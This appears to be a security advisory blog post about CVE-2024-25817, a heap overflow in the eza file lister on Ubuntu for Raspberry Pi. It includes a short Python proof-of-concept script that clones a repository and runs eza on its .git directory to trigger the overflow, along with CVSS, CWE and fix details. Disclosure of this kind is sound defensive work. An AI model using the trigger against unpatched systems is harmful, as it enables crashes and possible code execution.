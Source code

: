 ```yaml
---
title: "CVE-2024-25817"
date: '2024-02-05'
lastmod: '2024-06-08'
tags: ['PWN', 'Heap', 'CVE']
draft: false
summary: "In eza, there exists a potential heap overflow vulnerability, first seen when using Ubuntu for Raspberry Pi series system, on `ubuntu-raspi` kernel, relating to the `.git` directory."
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 Summary

In `eza` [^1] (before `v0.18.11`), there exists a heap overflow vulnerability, first seen when using Ubuntu for Raspberry Pi series system, on `ubuntu-raspi` kernel, relating to the `.git` directory.

## 0x02 Details

The vulnerability seems to be triggered by the `.git` directory in some projects. This issue may be related to specific files, and the directory structure also plays a role in triggering the vulnerability. Files/folders that may be involved in triggering the vulnerability include `.git/HEAD`, `.git/refs`, and `.git/objects`.

## 0x03 PoC - If you have Raspberry Pi 4B bare metal machine

**If you don't have Raspberry Pi bare metal, you can try emulate a ubuntu for raspberry system in virtual machine.**

You just need install any one of Ubuntu for Raspberry Pi series system in your bare metal machine.

### 1x01 Tested platform info

Configuration in `Raspberry Pi 4B` bare metal machine:

```bash
eza version: v0.18.10 [+git]

Linux lux 5.15.0-1049-raspi #52-Ubuntu SMP PREEMPT Thu Mar 14 08:39:42 UTC 2024 aarch64 aarch64 aarch64 GNU/Linux

Distributor ID: Ubuntu
Description: Ubuntu 22.04.4 LTS
Release: 22.04
Codename: jammy
```

> [!IMPORTANT]
> So far I have only tested the `Ubuntu 22.04.4 LTS Server` and confirmed that this vulnerability exists. I haven't test other System/Raspberry Pi yet.

### 1x02 Steps

Install `eza (<=v0.18.10)` in Raspberry Pi. Process can refer to the official [wiki](https://github.com/eza-community/eza/blob/main/INSTALL.md).

```python:poc.py
import subprocess
import os
import shutil

# Step 1: Clone the repository
repo_url = "https://github.com/umami-software/umami.git"
subprocess.run(["git", "clone", repo_url])

# Step 2: Checkout to the specific commit contain the special '.git' directory that can trigger the vulnerability
repo_dir = "umami"
commit_hash = "a38baa5"
os.chdir(repo_dir)
subprocess.run(["git", "checkout", commit_hash])

# Step 3: Create a directory for the vulnerability related files
os.chdir("..")
os.mkdir("suspicious")
shutil.move(os.path.join(repo_dir, ".git"), "suspicious/.git")

# Step 4: Remove unrelated files/directories
shutil.rmtree(repo_dir)

# Step 5: Trigger the vulnerability
subprocess.run(["eza", "-l", "--git", "suspicious/.git"])
```

<center>
  <Image alt="overflow" src="https://s11.ax1x.com/2024/02/07/pF1fNkT.png" width={1135} height={126} />
</center>

> [!NOTE]
> The picture shows my test environment. In actual testing, the vulnerability can be triggered by just using the above command.

## 0x04 Impact

Arbitrary code execution.

## 0x05 Severity using CVSS

Severity: `High 8.4`<br />
Vector string: `CVSS:3.1/AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

## 0x06 Weaknesses

 - Heap-based Buffer Overflow (CWE-122)
 - Improper Restriction of Operations within the Bounds of a Memory Buffer
 (CWE-119)
 - Missing Release of Memory after Effective Lifetime (CWE-401)
 - Improper Resource Shutdown or Release (CWE-404)
 - Improper Initialization (CWE-665)

## 0x07 GitHub Advisories

 - GitHub Advisories.[^3]

## 0x08 NIST

 - National Vulnerability Database.[^4]

## 0x09 Solution

Update eza to `0.18.11` or higher version.

[^1]: [eza](https://github.com/eza-community/eza/tree/main): A modern,
maintained replacement for ls.
[^2]: Download Ubuntu for Raspberry Pi image file from [this site](https://ubuntu.com/download/raspberry-pi).
[^3]: [GitHub Advisories](https://github.com/advisories/GHSA-3qx3-6hxr-j2ch)
[^4]: [CVE-2024-25817](https://nvd.nist.gov/vuln/detail/CVE-2024-25817)

